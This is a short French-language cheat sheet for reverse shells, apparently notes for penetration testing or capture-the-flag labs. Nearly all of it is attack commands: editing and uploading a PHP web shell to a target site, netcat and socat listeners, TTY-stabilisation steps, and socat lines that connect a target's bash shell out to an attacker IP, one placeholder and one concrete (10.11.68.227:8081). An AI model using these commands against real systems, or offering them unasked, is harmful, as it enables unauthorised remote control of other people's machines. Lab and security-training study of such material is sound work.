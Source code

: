 # Cheat Sheet Reverse Shell

## WebShell

Copier puis modifier /usr/share/webshells/php/php-reverse-shell.php

`$ip = '<IP ATTAQUANT>';`  
`$port = <PORT>;`

Puis upload sur le site et accéder au fichier

## Netcat Reverse Shell

**Attaquant**  
`nc -lvnp <PORT>`

**Stabilisation**  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`	(ou python/python2/python3)  
`export TERM=xterm`  
`CTRL+Z`  
`stty raw -echo; fg`

## Socat Basic Reverse Shell

**Attaquant**  
`socat TCP-L:<PORT> EXEC:"bash -li"`

**Cible**  
`socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li"`

## Socat Extended Reverse Shell

`socat TCP:10.11.68.227:8081 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`